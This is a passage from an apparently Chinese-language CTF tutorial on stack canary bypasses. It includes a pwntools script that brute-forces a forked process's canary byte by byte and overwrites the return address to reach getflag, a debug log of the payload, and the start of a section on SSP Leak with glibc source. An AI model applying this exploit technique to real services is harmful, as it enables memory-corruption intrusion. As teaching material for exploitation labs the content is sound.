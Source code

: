 继续运行，再次输入发现里面的 Canary 的值没有发生改变，这正是**通过 fork 函数创建的子进程的 Canary 与父进程是相同**

编写 exp：

```plain
# -*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./bin1')
e = ELF('./bin1')

p.recvuntil('welcome\n')
canary = '\x00'

for i in range(3):
    for i in range(256):
        p.send('a'*100+canary+chr(i))
        message = p.recvuntil('welcome\n')
        if 'recv' in message:
            canary+=chr(i)
            break

getflag_addr = e.sym['getflag']
payload = 100*'a'+canary+8*'a'+4*'a'+p32(getflag_addr)
p.sendline(payload)
p.interactive()
```

如果 canary 不正确，就会输出检测到堆溢出的信息，如果 canary 正确，会输出成功信息，并继续下一字节的爆破，由于 32 位的 canary 有 4 字节，故需要爆破 3 次

```plain
[DEBUG] Sent 0x68 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000060  61 61 61 61  00 61 41 d1 //爆破的最后一步                            │aaaa│·aA·│
    00000068
```

## SSP Leak

### 原理

Stack Smashing Protect Leak，这种方法能够获取内存中的值，但是无法拿到 shell

原理参考链接：[https://www.anquanke.com/post/id/177832#h2-3](https://www.anquanke.com/post/id/177832#h2-3)

当 canary 被改变时，函数终止前会调用\_\_stack\_chk\_fail 函数，定义如下：

```plain
eglibc-2.19/debug/stack_chk_fail.c

void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}

void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminatedn",
                    msg, __libc_argv[0] ?: "<unknown>");
```
